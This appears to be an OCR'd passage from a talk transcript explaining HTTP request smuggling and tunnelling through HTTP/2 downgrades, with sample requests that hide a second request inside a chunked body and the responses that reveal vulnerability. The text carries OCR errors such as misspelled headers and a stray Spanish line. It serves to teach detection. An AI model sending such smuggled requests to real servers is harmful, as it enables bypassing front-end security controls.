 ```Response
HTTP/1.1 301 Movex Permanently
Content-Length: 162
Location: /en

<html><head<title>301 Moved...

HTTP/1.1 301 Moved Permanently
Content-length: 162
```
but unfortunately  this response doesn't show that this target is actually vulnerable,  because this is how http 1.1 is supposed to work,  unless we're able to answer the question does the front end think it's sending us  one response or two this doesn't tell us whether they're  vulnerable or not. http2 however  answers this question extremely cleanly for us 

| :method           | POST        |
| ----------------- | ----------- |
| :path             | ```/```     |
| :authority        | example.com |
| transfer-encoding | chunked     |
| `\r\n`            |             |
| 0                 |             |
| GET / HTTP/1.1    |             |
| Host: example.com |             |

| :status                                       | 301       |
| --------------------------------------------- | --------- |
| location                                      | ```/en``` |
| ```\r\n```                                    |           |
| ```<br><html><head><title>301 Moved...<br>``` | chunked   |
| ```<br>Content-Length: 162...<br>```          |           |

because  if you see http 1.1 headers and a hp 1.1 response nested inside the body of a http2  response, well yeah that proves that they are in fact definitely vulnerable.
the second problem is that request tunneling  vulnerabilities like this are often blind because  the front end will look at the content length coming back from the from the  response, and only read that many bytes, so we have a common scenario where we  can smuggle a second request, we can trigger  two responses from the back end but the second response  is never read in by the front end and it's never passed on to us  as the as the attacker and this makes detection and exploitation extremely  difficult.
```REQUEST
POST /images/tiny.png HTTP/1.1
Tranasfer-Encoding: chunked

0

POST / HTTP/1.1
```
```Response
HTTP/1.1 200 OK
Content-Length: 7

content
```
(nunca leído por el front-end)
```
HTTP/1.1 403
```

